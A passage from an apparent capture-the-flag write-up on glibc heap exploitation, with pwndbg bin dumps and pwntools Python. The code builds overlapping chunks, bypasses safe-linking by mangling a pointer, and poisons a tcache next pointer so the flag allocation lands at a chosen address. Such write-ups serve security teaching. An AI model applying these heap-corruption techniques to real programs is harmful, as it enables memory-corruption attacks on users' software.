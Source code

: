 ```
tcachebins
0x100 [  7]: 0x5606bbb45a30 —▸ 0x5606bbb45930 —▸ 0x5606bbb45830 —▸ 0x5606bbb45730 —▸ 0x5606bbb45630 —▸ 0x5606bbb45530 —▸ 0x5606bbb45430 ◂— 0                                                                                          
fastbins
empty
unsortedbin
all: 0x5606bbb452c0 —▸ 0x7fbebca19ce0 ◂— 0x5606bbb452c0
```
Now if we malloc a size of 0x160, we will get this chunk, which starts from the starting location of the fake chunk which is inside chunk A and having a size of 0x160! Which means it overlaps with chunk or even chunks after chunk B!  

Now if we free a padding chunk and chunk B into the tcachebins. We can overwrite the next pointer of chunk B to not point to the padding chunk but to an arbitrary location we desire!

Here's how the process looks like in python:
```py
# malloc(0x158) to get the chunk, we call this the chunk D
p.sendline("malloc 11 344") 
# chunk B is after chunk D (which was within chunk A)
# So we free it and then use the malloc'd chunk D to overwrite the next pointer, fd pointer of chunk B in the free list
p.sendline("malloc 12 40") # padding freed chunk 
p.sendline("free 12")
p.sendline("free 2") 


# get the flag chunk


# defeat safe linking

flag_chunk = heap_leak + 0xb60
chunk_addr = heap_leak + 0x300
mangled_ptr = ((chunk_addr >> 12) ^ (flag_chunk))
# Overwrite from chunk D
p.sendline("read_copy 11")
p.sendline(b'A' * 0x30 + p64(mangled_ptr)) 
```
Result:
```
tcachebins
0x30 [  2]: 0x559c0968c300 —▸ 0x559c0968cb60 ◂— 0x559c0968c

```
We have overwritten the next pointer to point to `0x559c0968cb60`, a unintialized chunk where the flag chunk would land later. 
After a simple `read_flag` function in the challenge. Which allocations a chunk for flag, would be using `0x559c0968cb60` as the data section of the chunk that the flag chunk is going to be using. And after a `puts`, we get the flag.
```
[*] Function (malloc/read_copy/read_flag/free/puts/quit): 
Index: 
Size: 
[*] allocations[14] = malloc(40)
[*] allocations[14] = 0x55657b870b60

[*] Function (malloc/read_copy/read_flag/free/puts/quit): 
[*] flag_buffer = malloc(1262)
[*] flag_buffer = 0x55657b870b60
[*] read the flag!

[*] Function (malloc/read_copy/read_flag/free/puts/quit): 
Index: 
```